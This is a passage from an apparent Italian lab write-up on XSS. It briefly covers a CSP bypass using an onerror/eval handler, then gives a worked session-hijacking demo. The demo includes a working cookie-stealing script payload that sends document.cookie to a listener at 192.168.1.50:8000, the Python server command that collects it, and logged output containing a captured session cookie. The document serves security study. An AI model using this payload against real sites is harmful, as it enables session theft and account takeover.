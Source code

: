 **Meccanismo del Bypass**:
1. L'event handler `onerror` si attiva quando l'immagine fallisce il caricamento
2. `eval('alert(1)')` viene eseguito all'interno dell'event handler
3. Il CSP potrebbe non bloccare `eval()` in questo contesto specifico
4. Il payload aggira la restrizione `script-src 'self'`

---

## Session Hijacking tramite Cookie Stealing

### Teoria del Cookie Stealing

Il **cookie stealing** tramite XSS rappresenta uno degli scenari più pericolosi, permettendo di rubare cookie di sessione di qualsiasi utente che visiti la pagina compromessa.

**Meccanismo**:
1. Inserimento di payload XSS (stored o reflected)
2. L'utente o admin visualizza la pagina infetta
3. Il browser esegue lo script e invia automaticamente il cookie al server dell'attaccante
4. L'attaccante cattura i cookie e li può usare per impersonare l'utente (se non protetti da flag "httpOnly")

### Payload di Cookie Stealing

**JavaScript Payload Testato**:
```javascript
<script>
	new Image().src="http://192.168.1.50:8000/?c=" + document.cookie;
</script>
```

**Analisi Tecnica del Payload**:
- `new Image()`: Crea dinamicamente un oggetto Image
- `.src=`: Effettua una richiesta GET al server dell'attaccante
- `"http://192.168.1.50:8000/"`: URL del server in ascolto
- `"?c=" + document.cookie`: Appende il valore dei cookie alla query string
- **Stealth**: Non apre popup, non stampa nulla, è invisibile all'utente

### Setup del Server di Raccolta

**Python HTTP Server Base**:
```python
python3 -m http.server 8000
```

**Processo Operativo**:
1. Avvio del listener sul terminale attaccante
2. Il server si mette in ascolto per richieste in arrivo
3. Quando il payload si attiva, i cookie vengono ricevuti in console

### Risultato del Test Pratico

**Output del Server Registrato**:
```bash
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.100 - - [25/Jul/2025 15:00:57] "GET /?c=security=low;%20PHPSESSID=7clamc268ghvt4nsgie41mvpol HTTP/1.1" 200 -
```
